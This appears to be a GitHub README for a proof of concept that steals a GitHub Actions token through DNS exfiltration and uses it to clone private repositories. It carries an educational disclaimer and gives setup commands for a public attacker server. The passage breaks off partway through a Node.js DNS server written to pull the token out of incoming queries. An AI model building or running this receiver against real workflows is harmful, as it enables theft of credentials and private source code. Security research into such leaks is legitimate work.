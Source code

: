 # Unauthorized clone of private repos using DNS exfiltration

This repository demonstrates a proof-of-concept for cloning private GitHub repositories using DNS exfiltration, highlighting a potential security risk within GitHub Actions workflows.

## :warning: Disclaimer

The information provided in this article is intended solely for educational purposes and to raise awareness about potential security vulnerabilities. The techniques demonstrated here, including DNS exfiltration in a GitHub Actions workflow, are meant to help developers and security professionals understand and defend against such threats. Unauthorized hacking, data exfiltration, and any form of cyberattack are illegal and unethical. Always use your knowledge responsibly and adhere to all applicable laws and regulations. The author and publisher of this article do not condone or encourage any malicious activity and are not responsible for any misuse of the information presented.

## Setup the DNS server

### Get a server that can be accessed publicly

We recommend that you use an ephemeral VM for this, as we will modify the local DNS resolver and this could mess up with your server's ability to resolve IP addresses and access local or remote services if not correctly configured.

For this POC we are using an AWS EC2 instance using Ubuntu. After launching your Ubuntu instance, SSH into it and install a few software that we need to run our DNS server.

```bash
sudo apt-get update && \
sudo apt-get install -y dnsmasq nodejs npm net-tools git
```

### Create a custom DNS server

We'll use nodejs to create a custom DNS server which will extract the Github Token from the DNS query.

First setup the project folder and install [native-dns](https://www.npmjs.com/package/native-dns):

```bash
mkdir dnsx
cd dnsx
npm init -y
npm install native-dns
```

Now create a file named `dns.js` with the content below:

```js {filename="dns.js"}
const dns = require("native-dns");
const server = dns.createServer();
const util = require("node:util");
const { exec: execCb } = require("node:child_process");
const exec = util.promisify(execCb);

function dnsResponse(name) {
  return dns.A({
    name,
    address: "10.0.0.1", //this IP address is non-consequential, it could be anything
    ttl: 60,
  });
}

server.on("request", (request, response) => {
  request.question.forEach((question) => {
    console.log("DNS Question:", question);
```